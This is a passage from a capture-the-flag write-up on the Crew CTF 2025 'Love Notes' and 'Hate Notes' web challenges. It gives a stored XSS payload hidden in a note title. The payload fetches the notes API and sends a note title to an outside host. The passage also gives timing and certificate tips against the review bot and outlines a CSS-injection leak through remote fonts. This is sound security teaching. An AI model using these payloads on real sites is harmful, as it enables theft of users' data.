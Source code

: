 Note 1 title:
```
<html><body><script>fetch('/api/notes').then(r=>r.json()).then(d=>d[1].title).then(t=>fetch('https://mydomain/lovenotes/'+t));</script><p>
```

Note 1 content:
```
first</p></body></html>
```

Note 2 title:
```
<html><body><meta http-equiv="refresh" content="0;url=/api/notes/uuid1"><p>
```

Note 2 content:
```
second</p></body></html>
```

#### The Devil Is in the Details

- Be careful of the [Chrome
  bug](https://stackoverflow.com/questions/50298340/chrome-changes-url-case)
  when testing `/dashboard?reviewNote=uuid` with an upper-case `N`
- Note 1 needs to execute fast enough within 2 seconds (bot review procedure
  timeout in `bot.js`)
    - Encoding and sending the entire note in param is too slow
    - `window.location.href` is too slow
- Mixed Content Policies prevents `fetch()` visiting a plain HTTP site without
  SSL
    - Self-signed certificate is fine since the bot starts chrome with
      `--ignore-certificate-errors`

### Solution 2: CSS Injection to Leak UUID of Admin Notes

It is not realistic for developers to intentionally poke a CSP hole on the
`/api/notes/id` page. So the challenge author [filled the
hole](https://albertofdr.github.io/post/crewctf-2025/) with a CSP rule that is
even stronger than the default one for all pages. Then we have the _Hate Notes_
challenge (released on the second day of Crew CTF 2025) as the patched version
of _Love Notes_. The difference between _Love Notes_ and _Hate Notes_ is just
one additional line of header in `src/routes/notes.js`:

```
Content-Security-Policy: default-src 'none'
```

Basically it nullifies solution 1 since no inline JavaScript is allowed on any
page now.

#### What Do We Know

- [Jigsaw piece 8] In code analysis, we found the strangely relaxed logic for
  `/static/*` in `app.js`, which redirects if the URL does not end in `.js` or
  `.css`. It basically allows us to do CSS injection.
- [Jigsaw piece 4] The note containing the flag is on the same page as the
  note under review. The first note is matchable by CSS selectors injected from
  the note under review.
- [Knowledge piece 2] `url()` in CSS is not blocked by the CSP in `app.js`.
  More specifically, `font-src` is not defined, thus it opens a door to fetch
  fonts from remote URLs, which realizes the HTTP request to leak data.
